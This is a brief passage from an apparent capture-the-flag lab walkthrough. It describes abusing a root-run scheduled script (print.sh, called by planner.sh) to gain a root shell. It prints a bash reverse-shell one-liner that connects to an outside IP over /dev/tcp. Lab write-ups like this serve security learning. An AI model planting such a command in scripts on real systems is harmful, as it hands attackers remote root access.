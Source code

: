![[startup14.png]]
The output file is created by root! This means that root is running an automated task that runs the planner.sh script every minute. Now we can edit the print.sh script to get us a root shell instead of creating an output file. We can put the bash command(reverse shell) into the print.sh script.

**Command** - 
```python
bash -i >& /dev/tcp/10.17.47.177/4444 0>&1
```

![[startup15.png]]
